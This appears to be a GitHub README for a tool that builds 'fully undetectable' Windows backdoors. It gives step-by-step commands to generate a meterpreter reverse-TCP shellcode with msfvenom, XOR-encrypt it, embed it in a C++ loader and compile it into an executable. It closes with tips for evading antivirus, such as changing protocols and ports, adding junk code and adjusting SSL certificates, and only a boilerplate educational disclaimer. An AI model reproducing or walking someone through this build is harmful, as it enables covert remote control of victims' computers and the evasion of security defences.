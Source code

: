# 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

## Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
```

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```

## Add a decryption password
Add a password to both the main.cpp file and the xor_encryptor.py. It has to be the same password otherwise it will not work.

```cpp
  // replace the key variable with your own password or key
  char key[9] = "password";
  size_t key_len = strlen(key);

```python
# key should be similar to the one in the C++ file(main.cpp). Please
# endeavour to change it!!
KEY = "password"
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```cpp
unsigned char xor_shell_code[] = /* place_xor_shellcode_here */;
```

## Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
https://cutt.ly/BBOXP797

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!
